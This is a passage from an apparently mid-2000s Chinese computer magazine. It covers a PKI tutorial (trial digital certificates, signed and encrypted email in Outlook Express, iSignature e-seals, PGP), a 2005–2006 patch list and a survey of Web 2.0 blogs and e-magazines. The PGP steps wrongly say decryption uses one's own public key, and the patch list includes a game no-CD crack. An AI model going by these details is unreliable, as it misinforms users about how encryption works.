登录 https://testca.netca.net/apply_indi/indi_root.asp 后，点击“证书申请”，选择“试用型个人数字证书申请”，特别强调，注意只有安装了根证书（证书链）的计算机，才能完成后面的申请步骤。在提示的界面中，选择“是”。

- **第2步：**
安装成功出现提示框后，可以看到一个表单。按照上面的提示，完整的输入个人资料。这时，可以选择加密服务提供程序（Cryptographic Service Provider, CSP）。我们可以选择“Microsoft Base Cryptographic Provider V1.0”，补充信息可以选填：有效证件类型、证件号码、用户的出生日期、用户的性别、用户的住址、通信地址、通信所在地邮政编码、联系电话、传真号码、存储介质等。然后点击按钮提交。

- **第3步：**
下载安装证书。进行上述步骤后，系统提示安装证书。或者将发一封申请成功的信件到用户申请时使用的邮箱内，其中包括业务受理号和密码。点击数字证书下载地址，填写业务受理号和密码，如图2所示。

- **第4步：**
点击下方的“安装证书”按钮，这时会提示进行校验，处理完毕会出现基本信息提示，再次点击“安装证书”按钮。当系统提示“证书成功下载”和“证书已成功装入应用程序中”后，表明用户的证书已经成功安装，一张属于我们个人的数字证书已经生成。


- **第5步：**
那么，网络“身份证”到底在哪里呢？首先在打开 Internet Explorer，单击“工具”菜单中的“Internet 选项”。选择“内容”选项卡，点击“证书”按钮来查看用户信任的当前证书的列表。在“个人”选项卡里，就可以看到已经申请的个人数字证书了。下面是申请的免费数字证书。选定用户要查看的个人数字证书，然后单击“查看”按钮，可以查看证书的详细信息。下图是为“电脑爱好者”申请的数字证书的常规信息和详细信息。如图 3 所示。


- **第6步：**
查看数字证书的详细信息。就像检查身份证一样，如果要查看数字证书“持有人”的详细信息，点击“详细信息”选项卡，就可以看到具体的日期、地址等。下面就是在证书中所包含的元素的列表。如图 4 所示。


- 版本：用来区别 X.509 证书的各种连续的版本。
- 序列号：是一个整数值，在发行的证书颁发机构中是唯一的。序列号与证书有明确联系，就像身份证号码和公民日常登记有明确联系一样。
- 算法识别符：算法识别符识别证书颁发机构用来签署证书的算法。证书颁发机构使用它的私钥对每个证书进行签名。
- 发行者或证书颁发机构：证书颁发机构是创建这个证书的机构。
- 有效期：提供证书有效的起止日期，类似于信用卡的期限。
- 主体：证书对他的身份进行验证。
- 公钥信息：为证书识别的主体提供公钥和算法识别符。
- 签名：证书签名覆盖了证书的所有其他字段。签名是其他字段的哈希代码，使用证书颁发机构的私钥进行加密，保证整个证书中信息的完整性。如果有人使用了证书颁发机构的公钥来解密这个哈希代码，同时计算了证书的哈希代码，而两者并不相同，那么证书的某一部分就肯定被非法更改了。

有了数字证书以后，我们就可以发行加密和签名电子邮件，还可以应用于公众网络上的商务活动和行政作业活动，如网上招标投标、网上签约、网上订购、安全网上公文传送、网上办公、网上缴费、网上缴税、网上购物等。

##### 2. 利用数字证书发送安全的电子邮件

数字证书最基本的应用就是电子邮件，下面我们看看在 Outlook Express 中如何设置电子邮件。

- **第 1 步：设置新帐户**
打开 Outlook Express，然后选择菜单中的“工具”菜单中的“帐户”选项，出现“Internet 帐户”对话框，点击右边的“添加”按钮，选择“邮件”选项，输入读者的邮件显示姓名，点击“下一步”，完成新帐户的设置。

- **第 2 步：绑定邮箱与数字证书**
打开刚才建立的帐号，单击“属性”，选择“安全”标签，可以看到“签署证书”和“加密首选项”两栏。通过相关设置，我们可以进行邮件的签署和加密。如图 5 所示。


在“签名证书”项后，点击“选择”按钮。可以看到已经申请的免费数字证书。选择数字证书，完成邮箱与证书的绑定。按照同样的方法，也可以在“加密首选项”中选中证书。

- **第 3 步：发送加密的电子邮件**
发送加密邮件前必须先获得接收方的数字标识，用户可以首先让接收方发一份签名邮件来获取对方的数字证书。启动Outlook Express 6.0，点击“新邮件”，撰写新邮件。同时选中右上方的“签名”或者“加密”选项。点击“发送”，签名邮件发送成功。当收件人收到并打开有数字签名的邮件时，将看到数字签名邮件的提示信息，按“继续”按钮后，才可阅读到该邮件的内容。收到邮件后，窗口右边有一个小图标，点击它，可以看到相关的数字证书信息。发送加密邮件的方法与发送签名邮件的方法类似。收取电子邮件实际上就是一个解密的过程，算法已经隐藏在后台运行了。通过这些具体的操作，我们对加密和解密也有了更加深刻的认识。

##### 3. 电子签章办公实例

随着办公自动化技术的日益普及，人们对文档的安全性、真实性的要求也不断提高。在网上招标或者签订电子合同中，如何保证传送的公文不被篡改？如何确认发文者的身份？如何控制审批者的权限？现在，这些问题可以通过电子签名技术得到解决。当文档中途被黑客篡改时，我们可以通过数字证书来验证其真实性。

- **第1步：下载软件**
要实现签章功能，可以使用金格电子签名印章软件。这是一个免费软件，它采用信息加密和数据压缩处理技术，软件可以自动嵌入到Word里，用来实现印章或签名。软件下载地址为：http://www.goldgrid.cn/iSignature/ysxz.asp。登录上述站点后，输入相关的信息后，选择“iSignature For Office电子签章”，就可以下载软件了。

- **第2步：制作公章**
打开“开始”菜单中的“程序”选项，选择“iSignature电子签章V5”下的“iSignature图案生成”，在右边进行印章设置。在这里，输入印章的正文、附文，选择印章字体、大小、颜色等，得到一个满意的电子印章后，然后单击“保存签章”按钮。如图6所示。


- **第3步：制作个性化的签章**
启动“iSignature电子签章V5”下的“iSignature签章制作”，首先输入登录密码，默认为123456。单击“签章导入”按钮，导入利用“电子签章生成器”制作的公章。然后，输入用户名称、签章名称、签章密码等。这样，一个属于“电脑爱好者”的签章制作完毕，在软件的安装目录下，生成了以.key为后缀的文件。注意：在下面的操作中，需要用同样的密码导入此文件。

- **第4步：导入签章**
打开一个Word文档，这时发现界面上多出了几个关于电子签章的图案。点击“电子签章”图案，将光标停留在需要盖章的位置，输入钥匙密码，然后在“参数设置”选项卡中，导入已经制作完毕的key文件。

- **第5步：给电子文档盖章**
选择“电脑爱好者”电子印章，输入正确的密码。单击“确定”按钮，即可将印章插入到Word文档中。在Word文档中，点击电子印章，将鼠标停留在电子印章上方，将会出现关于此印章的相关信息，如签章用户、签章名称、签章时间等。如果认为印章或签名所在位置不合适，可以直接将其移动到相应的位置。

- **第6步：文档的验证和锁定保护**
有了印章的文档能够保证文件不被修改，如果内容有任何变化，可以通过文档验证功能检测出来。在印章上点击鼠标右键，在弹出的菜单中选择“文档验证”，如对文档进行了修改，将看到不能通过验证的信息，文档上的印章或签名上有两条横线，表示印章无效。如图7所示。


- **第7步：数字签名**
数字签名是通过使用数字证书来确保数据完整性和原始性的方法。现在，我们通过申请的免费数字证书来完成这个功能。选择数字证书，在印章上点击鼠标右键，在弹出的菜单中选择“数字证书”下的“数字签名”，这时，会出现一个数字证书选择的对话框，选择已经安装的数字证书即可。如果安装的数字证书信息正确，就会提示“数字签名成功”。如图8所示。签名成功后，在印章上点击鼠标右键，在弹出的菜单中选择“证书认证”，就可以了解这个证书的认证信息。这时，会提示“证书验证成功”。可见，通过上述软件和数字证书的完美配合，我们完全可以制作出适合自己的电子印章，就可以保证文档的真实性和安全性。


## 三、PKI实例：通过PGP软件的实现

网络崇尚共享，还有更好的途径来了解PKI技术吗？答案是肯定的，PGP软件就是一个典型的PKI案例，它采用了公钥加密体系，用加密算法生成两个密匙，分别作为公钥和私钥。除此之外，用户还可和同样装有PGP软件的朋友互相传递加密文件。

#### 1. PGP安装及密钥生成

PGP下载地址为：http://www.pgpi.org 或者 http://www.pgp.com。当然，通过其他软件下载站点也可以找到适合于自己的版本。本文以免费版本PGP freeware 7.0.3进行讲解（版本比较高的商业版本需要注册），通过它的使用过程，我们可以充分领略到PKI技术的神奇和奥妙。

PGP的安装很简单，和平时的软件安装一样，要进行正常的加密解密工作，每一个用户都要有自己的钥匙，这和数字证书有点类似。使用PGP之前，首先需要生成一对密钥，其中的一个我们称为公钥，另一个称为私钥。打开“开始”菜单中“PGP”目录下的“PGP KEYS”，可看到如图9所示的公钥。


图9

- **第1步：生成新密钥**
  选择“Keys”菜单中的“New Key”，PGP会生成一对密钥，用户可以用它来加密文件或对数字文件进行签名。PGP会要求用户输入全名、邮件地址以及大于8位的密码。同时，PGP会询问用户是否想把公共密钥发送到服务器上去，确定这把钥匙没有问题后，按正确的提示继续进行。在PGP Key中，右键选择生成的密钥，在弹出的菜单中选择“Key Properties”，可以看到相关信息。

- **第2步：把公用密钥分发给朋友**
  选择待发送对象，用快捷键Ctrl+E或者菜单“Keys”中的“Import”将用户的密钥导出为扩展名为asc或txt的文件，将它发给朋友们。对方收到后，可以用快捷键Ctrl+M或菜单“Keys”中的“Import”导入。

- **第3步：查看并保存密钥**
  完成上述步骤后，软件会提示用户保存pubring.pkr与secring.skr这两个文件，即公钥与私钥。前者称为公钥，相当于锁一样，可以将此文件传到PGP的服务器上，如http://pgpkeys.mit.edu:11371，这样任何人都可以取到它，当然最好的方法是用E-mail发送给朋友(文件只有2KB多)。后者称为私钥，把它小心收藏好，就像保管保险箱里面的钥匙一样。如图10所示。


图10

准备工作做好后，现在就可以开始下面的工作了。

#### 2. 使用PGP发送加密电子邮件

激动人心的时刻终于到来了。如果我们现在有一封安全级别非常高的邮件要发送，但是又害怕别人在网络上截取我们的信息，怎么办？PGP这个加密软件包可以帮助我们解决这个问题。PGP可以在Outlook、Foxmail等电子邮件软件上使用，它可以有效地保证通信安全，从而保证网上用户的利益。只要有PGP，我们就能让自己的邮件拥有目前最安全的加密层次。

- **第1步：撰写新邮件**
如果要在Outlook Express或Outlook中直接对邮件进行加密，可在写新邮件时点击工具栏中的图标Encrypt (PGP)。如图11所示。


图11

然后点击“发送”按钮，当邮件写完发送时，PGP会弹出对话框请发送的用户选择自己的密钥，选择完毕，发送即可。在接收方的邮箱里，就可以查看密文了。

- **第2步：查看加密后的邮件**
如果用户是接收邮件的一方，现在该如何查看电子邮件的信息呢？也就是如何解密的问题。首先，在Outlook中，选中需要解密的密文，注意，这个步骤是很重要的，否则PGP会提示错误。同时，PGP这个软件在下面的状态栏上有一个小图标，点击左键，我们选中“Current Window”中的“Decrypt&Verify”对邮件进行解密。在弹出的“PGPtray”窗口中，选择自己的公钥，即自己邮箱的“Public Key”，输入相应的密码，然后选择“OK”按钮，即可将密文解密为我们真实的明文。如图12所示。


图12

另外，通过PGP还可以实现对文档的加密，这些都大大提高了文件的安全性。

通过上面的实例讲解，我们对PKI体系结构的基本情况有了一个比较全面的了解。作为加密和解密方面的标志性技术，PKI技术目前已经发展到一个很高的技术级别，而且在很多安全性要求比较高的行业，如军事、政府、银行、证券等行业得到了广泛的使用，成为了网络安全行业中另一道独特的风景线。

## 2005~2006年软件、游戏、硬件驱动补丁一览

文/TMG ck

2006年的夏天是一个深受球迷欢喜的夏天，大家都过足了球瘾。各大软件生产商在这一阶段也没闲着，新的软件层出不穷，更新补丁也是不断地涌现出来，针对新产品的问题补丁也是不断地更新，以求能及时将漏洞弥补过来。

因为漏洞的弥补速度是用户最关心的。它也直接影响到生产商在用户群中的信誉，进而影响到其产品的销售。下面我们来为大家介绍一下近一阶段各厂商发布的最新的补丁信息。

### 2005年补丁一览表

| 发布时间 | 补丁名称 | 补丁简介 |
| :--- | :--- | :--- |
| 10月份 | Windows补丁 | Windows 2000 更新程序 |
| | IE补丁 | Internet Explorer 6 Service Pack 1安全更新程序 |
| | Windows补丁 | Windows XP 更新程序 |
| | IE补丁 | Internet Explorer for Windows XP Service Pack 2安全更新程序 |
| | IE补丁 | Internet Explorer for Windows Server 2003安全更新程序 |
| | Windows补丁 | Windows XP 更新程序 |
| | Windows补丁 | Windows Server 2003 安全更新程序 |
| | Windows补丁 | Windows 2000 安全更新程序 |
| | Windows补丁 | Windows 2000 安全更新程序 |
| | Windows补丁 | Windows 2000 安全更新程序 |
| | Windows补丁 | Windows XP 安全更新程序 |
| | Windows补丁 | Microsoft XP 安全更新程序 |
| | Windows补丁 | Windows Server 2003 安全更新程序 |
| 11月份 | Outlook补丁 | Outlook 2003 垃圾邮件筛选更新 |
| | Access补丁 | Access 2002更新 |
| | Windows补丁 | Microsoft XP 安全更新程序 |
| | Office补丁 | Office 2003更新 |
| | Windows补丁 | Windows 2000 更新程序 |
| 12月份 | Windows补丁 | Windows XP 更新程序 |
| | Windows补丁 | Windows Server 2003 更新程序 |
| | Windows补丁 | Windows Server 2003 更新程序 |
| | IE补丁 | Internet Explorer for Windows XP Service Pack 2安全更新程序 |
| | Windows补丁 | Windows Server 2003 更新程序 |
| | Windows补丁 | Windows XP 更新程序 |

### 2006年补丁一览表

| 发布时间 | 补丁名称 | 补丁简介 |
| :--- | :--- | :--- |
| 1月份 | Windows补丁 | Windows XP 安全更新程序 |
| | Windows补丁 | Microsoft XP 安全更新程序 |
| | Outlook补丁 | Outlook 2000 安全更新 |
| | Office补丁 | Office 2000 多语言包安全更新 |
| | SQL Server补丁 | Microsoft SQL Server 2005 Express Edition |
| 2月份 | Windows补丁 | Windows XP Service Pack 2更新程序 |
| | Windows补丁 | Windows Server 2003 安全更新程序 |
| | Windows补丁 | Windows XP 安全更新程序 |
| | Windows Media Player补丁 | Windows Media Player插件安全更新程序 |
| | Windows Media Player补丁 | Windows Server 2003 安全更新程序 |
| | Windows补丁 | Windows Server 2003 安全更新程序 |
| | Office补丁 | PowerPoint 2000 安全更新 |
| | Outlook补丁 | Outlook 2003 垃圾邮件筛选更新 |
| | IE补丁 | Internet Explorer 5.01 Service Pack 4安全更新程序 |
| 3月份 | Windows XP Media Center补丁 | Windows XP Media Center Edition 2005更新程序 |
| | Windows补丁 | Windows Server 2003 更新程序 |
| | Office补丁 | Office 2003校对工具更新 |
| | Outlook补丁 | Outlook 2000 安全更新 |
| | Office补丁 | Word 2002 安全更新 |
| | Windows补丁 | Windows Server 2003 安全更新程序 |
| | Office补丁 | PowerPoint 2002 安全更新 |
| | 硬件补丁 | MSI微星915GVM3-V主板最新BIOS 1.1版 |
| | Windows补丁 | Windows 2000 安全更新程序 |
| | Outlook补丁 | Outlook 2003 垃圾邮件筛选更新 || 发布时间 | 补丁名称 | 补丁简介 |
| --- | --- | --- |
| 4月份 | Office 补丁 | Office XP 工具：Web 组件 |
| | Windows 补丁 | Windows Server 2003 更新程序 |
| | Windows 补丁 | Windows XP 更新程序(KB914841) |
| | Windows 补丁 | Microsoft 数据访问组件 2.7 Service Pack 1 安全更新程序 |
| | Windows 补丁 | Microsoft 数据访问组件 2.8 安全更新程序 |
| | Outlook 补丁 | 用于 Windows XP 的 Outlook Express 累积安全更新程序 |
| | Windows 补丁 | Windows Server 2003 安全更新程序 |
| | Office 补丁 | FrontPage 2002 Server Extensions 安全更新 |
| | IE 补丁 | Internet Explorer for Windows Server 2003 安全更新程序 |
| | Windows Media Player 补丁 | 适用于 Windows XP 的 Windows Media Player 10 安全更新程序 |
| | Windows Media Center 补丁 | Windows XP Media Center Edition 2005 更新程序 |
| | Windows 补丁 | Windows Server 2003 更新程序 |
| | Windows 补丁 | 针对带 Service Pack 2(KB916106) 的 Microsoft Internet Security and Acceleration (ISA) Server 2004 Enterprise Edition 的 HTTP 问题的更新程序 |
| | Windows 补丁 | Microsoft Windows XP Professional x64 Edition 中的功能变更 |
| | Windows 补丁 | Microsoft XP 安全更新程序 |
| 5月份 | Outlook 补丁 | Outlook 2003 垃圾邮件筛选器更新 |
| | OneNote 补丁 | OneNote 2003 更新 |
| | Exchange Server 补丁 | 用于 Exchange Server 2003 SP1 的安全更新 |
| | Flash Player 补丁 | Flash Player 安全更新程序 |
| | Windows 补丁 | Windows Server 2003 安全更新程序 |
| | Windows 补丁 | Windows XP 安全更新程序 |
| | Office 补丁 | Office 2003 可选用户输入方法更新 |
| | Windows 补丁 | Windows XP 更新程序 |
| | Windows 补丁 | Windows Server 2003 更新程序 |
| | Windows 补丁 | Windows 桌面搜索 2.6.5 更新程序 |
| | Exchange 补丁 | Exchange 2003 更新 |
| | Office 补丁 | Microsoft Office Live Communications Server 2005 SP1 修补程序 KB911996 |
| | Windows 补丁 | Windows XP 更新程序 |
| | IE 补丁 | Internet Explorer 6 Service Pack 1 安全更新程序 |
| | Windows Media Player 补丁 | 用于 Windows 2000 的 Windows Media Player 7.1 安全更新程序 |
| | Windows 补丁 | Windows Server 2003 安全更新程序 |
| | Windows 补丁 | Windows Server 2003 安全更新程序 |
| | Windows 补丁 | Windows XP 安全更新程序 |
| | Exchange Server 补丁 | 用于 Exchange Server 2003 SP1 的安全更新 |
| | Exchange Server 补丁 | 用于 Exchange Server 2003 SP2 的安全更新 |
| | Office 补丁 | Word Viewer 2003 安全更新 |
| | Windows 补丁 | 用于 Windows 2000 的 JScript 5.6 安全修补程序 |
| | Windows 补丁 | 用于 Windows XP 的 JScript 5.6 安全修补程序 |
| | Windows 补丁 | Windows XP Service Pack 2 更新程序 |
| | Windows 补丁 | Windows Server 2003 更新程序 |
| | 游戏补丁 | 魔兽争霸 1.20e 免 cd 中文版傻瓜补丁 |
| | Windows 补丁 | Windows XP 安全更新程序 |
| 6月份 | Windows 补丁 | Windows 2000 安全更新程序 |
| | Windows 补丁 | Windows XP 安全更新程序 |
| | Office 补丁 | Excel Viewer 2003 安全更新 |
| | Windows 补丁 | Windows Server 2003 安全更新程序 |
| | Office 补丁 | Office XP 安全更新 |
| | Microsoft 补丁 | .NET Framework 2.0 ASP.NET 安全更新 |
| | Windows 补丁 | Windows Server 2003 更新程序 |
| 7月份 | IE 补丁 | Internet Explorer for Windows Server 2003 安全更新程序 |
| | Outlook 补丁 | 用于 Windows XP 的 Outlook Express 安全更新程序 |
| | Windows 补丁 | Windows 2000 安全更新程序 |
| | Windows 补丁 | Windows XP 安全更新程序 |
| | Windows 补丁 | Windows 2000 安全更新程序 |
| | InfoPath 补丁 | InfoPath 2003 更新 |
| | Windows 补丁 | Windows Server 2003 更新程序 |
| | Windows 补丁 | Windows XP 更新程序 |
| | IE 补丁 | Internet Explorer 6 Service Pack 1 安全更新程序 |
| 8月份 | Windows 补丁 | Windows XP 安全更新程序 |
| | Windows 补丁 | Windows Server 2003 更新程序 |
| | Windows 补丁 | Windows Server 2003 安全更新程序 |
| | IE 补丁 | Internet Explorer 6 Service Pack 1 安全更新程序 |
| | Windows 补丁 | Windows Server 2003 安全更新程序 |
| | 杀毒补丁 | 金山毒霸 6 标准版\ 试用版\ OEM 版\ 下载版 - 完整升级包 |
| | 杀毒补丁 | 金山网镖 6 正式版\ 试用版\ OEM 版 - 完整升级包 |
| 9月份 | Windows 补丁 | Windows XP 安全更新程序 |

## 风向标：2006热点网络技术盘点

文／风之扬

在2006年世界杯激战的赛场之外，以Web 2.0为主导的网络世界也在悄然发生变化：用户创造内容（UGC）、个性化定制、社会化、存储空间的网络化、操作系统概念的弱化、浏览器服务成为网站提供的主要产品、分布式计算模式开始取代传统的客户机／服务器模式。细细罗列，博客正在成为和新闻、邮件、论坛等并列的主流互联网业务，网络杂志在资本的扶持中也悄然兴起。与此同时，AJAX、P2P、API、RSS、博客、网络杂志、SNS、TAGs、WIKI、播客等概念也逐渐深入人心。本专题将重点介绍本年度发展最热门的博客和网络杂志技术，然后以实例讲解发展中的其他Web 2.0技术，使用户对本年度的网络新技术有一个更加直观的认识。

### 一、博客技术:开启一个崭新的网络时代

2006年，在IT业历经沉寂的磨砺之后，在“Web 2.0时代”光环的闪耀之下，“名人博客”、“草根博客”铺天盖地而来。Web 2.0的风行，也引发了新一轮的互联网“圈地运动”。三大门户中，除了早在2003年便已推出博客服务的网易之外，新浪、搜狐也纷纷推出博客频道；在专业博客站点中，号称“全球第一博客门户”的博客中国也改旗易帜，正式更换域名。

#### 1. 博客网站特色技术扫描

方兴东在《博客宣言》中说：“博客”不是博士，如同当年麦哲伦的航海日志一样，博客们通过博客日志，将日常思想精华及时变成最有价值和最有趣的信息与资源分享出来。如今，无论在国内还是国外，博客技术已经进入了一个新的发展里程碑，没有任何人会否认互联网对媒体带来的革命。从草根到精英，从名人到名人中的博客，人们不再对此感到惊讶。在千百万个草根中，也有许许多多的优秀代表，如洪波的“对牛乱弹琴”（参考地址：http://www.donews.net/keso），王晓峰的“按摩乳”（参考地址：http://lydon.yculblog.com）、猛小蛇的“狗日报”（参考地址：http://www.18mo.com）等。以上所提示的仅仅是某个主题的某个方面，或者只是网海一粟。

2006年，随着一系列大手笔风险资金的注入，专业博客站点迅速发展起来。这些站点根据自身定位和不同的顾客群，推出了各具特色的功能和服务，形成丰富多彩的博客内容和广泛的接触面及影响力。

##### （1）博客网（http://www.bokee.com）

随着新版博客站点的推出，博客网逐渐向综合领域拓展，其首页罗列了社会、经济、生活等多类别的最新新闻、评论内容等。博客网的管理系统功能比较多，并提供了复杂的编辑器，用户可以拖动不同的模块自由组合。在技术上，博客网力推Web 2.0新概念，具有图片博客、游戏博客、播客、无线博客、企业博客等多种形式。博客网采用了RSS技术，所有的RSS文件都必须符合由W3C发布的XML 1.0规范。与同类网站相比，博客网对用户的亲和程度很强。

##### （2）中国博客网（http://www.blogcn.com）

中国博客网首页信息量也很大，专栏作家、日志分类无不呈现其特色。在技术方面，网站提供了移动博客、音乐博客等服务，用户可以在自己的音乐模板自由添加音乐播放器控件。另外，网站强调Mrabo（移动博客）、Rabo客户端等软件的结合。其中，Rabo结合了RSS阅读器浏览日志的方便与快捷，将写日志与管理日志的功能加入其中，提供了日志备份、上传图片、相册管理、博客订阅、RSS订阅等服务。从自定义编辑模板到图片上传功能的开设；从每月一星的推荐到电子期刊的订阅都体现了网站时尚、自由的博客文化环境，极大地满足了网民们展示的欲望。

##### （3）BlogBus（http://www.blogbus.com）

博客大巴的首页很简单，给人耳目一新的感觉。博客大巴拥有大量的高端用户，其积极健康的内容产生了很好的影响，其“社会性链接”带来的新增用户确保了高质量的用户群体不断扩大。技术含量上，BlogBus推出TAG标签、组博、博贴等服务。尤其值得注意的是，BlogBus提供了“搬家”技术，导出后的格式为标准XML文件，这样用户可自行决定是否搬离原有BSP。同时，BlogBus还向用户提供将数据导入至BlogBus的服务。

另一方面，我们也看到，在2006年，非专业博客也经历了一个高速发展期，这样的网站大致可以分为三种，首先是门户网站（如新浪、搜狐、网易、Tom等）提供的博客社群；其次是一些基于即时通信业务的网站（如MSN Space、腾讯QQ Zone等）提供的个人空间，再就是一些其他的行业网站或论坛提供的博客服务。这些博客服务的明显优势在于，依托原有的人气，利用自身的技术优势，提供更加稳定的服务。

##### （4）新浪博客（http://blog.sina.com.cn）

新浪博客的页面上排列着众多的名人博客链接。技术上，新浪博客提供了对图片博客的支持，XML服务和RSS等技术也得到了充分的应用，通过新浪点点通阅读器，用户可以更便捷地获取、阅读和管理格式的信息。新浪博客的管理系统界面清新，菜单设置精简合理，用户可以通过“控制面板”设置首页内容。除了普通的模板风格选择以外，还提供了“模板DIY”界面。另外，为了方便用户搜索，在“热点博客检索”页面，还提供了“A－Z”的所有检索。

##### （5）搜狐博客 (http://blog.sohu.com)

技术上，搜狐博客更强调博客群的概念，包括明星博客群、体育博客群、读书博客群、财经博客群、IT博客群、汽车博客群、教育博客群、旅游博客群、健康博客群等。撰写日志时，可插入视频、声音、插入图片等，还提供了“Flash 特效”功能，可以在页面上加上诸如雪花飘等透明的 Flash 动画。

##### （6）网易部落 (http://blog.163.com)

网易博客在搜索技术方面表现比较抢眼，提供了“日志”、“图片”、“音乐”、“标签”、“博客作者”等多种搜索形式。经过一番动作后，网易博客更加强调“圈子”技术的应用，用户通过简单的博客设置和独特的圈子交流系统，就可以轻松找到一帮志趣相投的朋友。在编辑页面中，网易博客的“修改昵称”、“发纸条”、“风格设置”等项目都需要“金钱”，每次发帖都会赚到一定数额的“金钱”。在博客大潮中，这也许是一个很好的创意。

##### （7）和讯博客 (http://blog.hexun.com)

和讯网专门供专业的财经资讯服务。技术上，提供了 RSS 等服务。毕竟是财经站点，它十分强调“圈子”的概念和经济效益，网站可以进行“创建圈子”、“申请加入圈子”、“邀请加入圈子”等操作，创造了一个良好的、自发的社群概念。日志发布系统功能也很齐全，不仅可以方便地插入图片、视频，并且对于文本格式的编辑功能也很多。

通过上面的分析，可以看到，博客技术在本年度经历了一个质的飞跃。但专业博客发展后劲不足，在形式和内容上和传统网络门户有趋于同质化的倾向，要真正实现跨越式发展，除了不断在内容和形式上下功夫、不断提升服务质量外，还要深挖属于自己的特色技术，走出适合自己的路子。

#### 2. 技术亮点：博客管理工具的出现

当博客成为一种主流后，相应的博客工具也开始涌现出来。例如博客发布、备份、安全工具等，都给博客的应用带来了许多好处。下面，以微软的博客发布工具 Windows Live Writer 为例，该软件集撰写、发布于一体，可以支持多个博客发布平台。软件下载地址为：http://www.skycn.com/soft/28498.html。

##### 第一步：配置博客帐户

微软博客工具需要.NET framework 的支持，可以到微软网站下载并安装。然后，该软件会提示选择博客服务提供商，输入博客地址、账户、密码等，如果需要通过代理服务器，点击“Edit Proxy settings”即可满足要求。接下来该软件会自动检测博客相关资料，并在软件界面中显示。Windows Live Writer 不仅支持微软博客，还支持 Blogger、LiveJournal、TypePad、WordPress 等，具有广泛的兼容性。

##### 第二步：博客发布测试

打开软件主界面，可以直接在中间的文本输入窗口中输入文字，这里支持复制、粘贴等功能，在上方有一排工具按钮和格式设置按钮，用过 Word 的朋友都应该很熟悉了，这里支持设置字体、格式属性、颜色、缩进、项目符号和编号等，具体操作比较简单。除了默认的编辑模式之外，还支持 HTML 源码模式和预览效果。

##### 第三步：对象插入功能测试

如今，图片博客十分流行，要提升人气，图片、链接必不可少。点击右侧的“Insert picture”选项，即可将电脑中的图片轻松插入到博客中。如果看到网络精彩图片，也可以直接将此链接插入到博客中。插入图片后，点击选中该图片后，右侧将显示出“Image Properties”属性面板，在这里可以进行详细的属性设置。如图 1 所示。


图 1

##### 第四步：地图插入功能测试

插入地图是微软博客工具的一个特色，该服务是与 Windows Live Local 地图联系在一起的。点击“Insert Map”链接，在打开的窗口中，在“Find address”栏中输入地点名称，再点击放大镜按钮或回车键搜索，遗憾的是，软件暂时不支持国内地图。

设置完毕，点击“File”下的“Publish to Weblog”即可发布。如果对已经发布的日志不满意，可在程序中点击工具栏上的“Open”按钮，弹出“Open Post”窗口，在此可以选择需要修改的文章，点击“OK”按钮将其打开后即可重新编辑。作为一款博客发布工具，Windows Live Writer 基本的功能都比较完善，该软件支持多种博客服务，这也在很大程度上方便了其他博客用户。

### 二、网络杂志技术：一道迷人的风景线

2006 年后，各类网络杂志如井喷般全面爆发，一时间直达数千种。在国内提供电子杂志发布服务的平台比较多，目前比较有影响力的下载平台有：Xplus、MagBox、Zcom、ZineChina、Xdoc、VIKA、iebook 等。

#### 1. 网络杂志平台技术分析

网络杂志是伴随着宽带、网格计算、Flash 技术、Web 2.0 和 3G 等技术的快速发展而出现的，尤其是以 P2P 为代表的网格计算技术，极大地提高了对带宽的使用效率和对全球计算机的使用能力，使得大数据量的传输成为可能。网络杂志平台是网络杂志发展中一个很重要的环节，下面，以几个国内比较典型的网络杂志平台为例，进行详细的技术分析。

##### （1）Xplus 平台

杂志平台主要通过网站和客户端软件构成，在首页，点击“马上下载”阅读器按钮可以完成客户端软件的安装。为了吸引读者，Xplus在杂志内容和制作技术方面也下了一定功夫，但原创杂志和技术运用所占的比重还不太高，感觉整个平台的重心更偏重于发行渠道上，也就是说更像一个发行公司。在客户端软件采用了P2P技术进行文件传输，这样用户可以很快将网络杂志下载到本地计算机上。

##### （2）Zcom 平台

Zcom的网站分类比较细致，整体感觉很充实，也是采用了客户端软件相结合的方式。Zcom杂志制作大师与客户端浏览软件是分开的，并为用户提供了一个专门的网站页面http://diy.zcom.com。下载并安装“杂志制作大师”后，单击“导入素材”按钮，可以选择JPG格式的图片或SWF文件，也可以通过“插入素材”按钮插入新的素材。

##### （3）MagBox&POCO 平台

MagBox依托POCO平台，具有分类齐全、人性体贴等优点，可以充分发掘用户阅读的乐趣。MagBox客户端软件有“杂志列表”、“我的书柜”、“下载进度”等栏目。在原创力方面，借助POCO的东风，MagBox表现出很高的创意。原创软件功能十分丰富，它支持模板替换和多种图片格式，生成的电子杂志不需要任何浏览辅助工具；页面动画特效可以实现比较专业的效果，让人惊叹不已；完善的管理后台能够很方便地管理已发布的作品、等待审核的作品，对收藏的作品分类，进行评论、删除等管理。

总的来说，由于电子杂志文件一般都比较大，为了解决文件的传输问题，上述电子杂志平台的客户端软件中都集成了专用的P2P下载软件，功能原理和BT下载有点类似。在内容服务上，除提供杂志阅读器的下载、杂志的下载外，还提供多项内容相近但各具特色的平台服务，重在杂志推广。

#### 2. 网络杂志制作技术扫描

网络杂志赏心悦目的形式和内容吸引了大量用户的关注，尤其是其新颖、活泼的表达方式满足了受众潜在的阅读需求，为受众创造了全新的阅读体验和快感。在制作技术上，它们融入了声音、图像、动画、视频等手段，使杂志的可视性、交互性达到前所未有的高度。在压缩技术上，多媒体网络杂志采用了矢量格式，使数据量大大减小；在浏览技术上，可在线或离线阅读、也可移植到PDA、MOBILE及TV(数字电视、机顶盒)等多种个人终端进行阅读。网络杂志区别于传统电子杂志的地方在于，它的表现形式多样化，通过声音和动画与读者实现了互动。根本原因在于互动杂志的页面可以同时展现视频、音频、三维动画、Flash、图片、文字，也就是说集成了电视广告、网络广告、电台广告、平面广告的优点于一身，并将成为网络广告的终结者。比如，《男人志》中大量运用了Flash制作技术，在多媒体和交互性方面表现十分出色，图片的设计也十分精美，这样就可以在不知不觉中使读者得到美的享受。

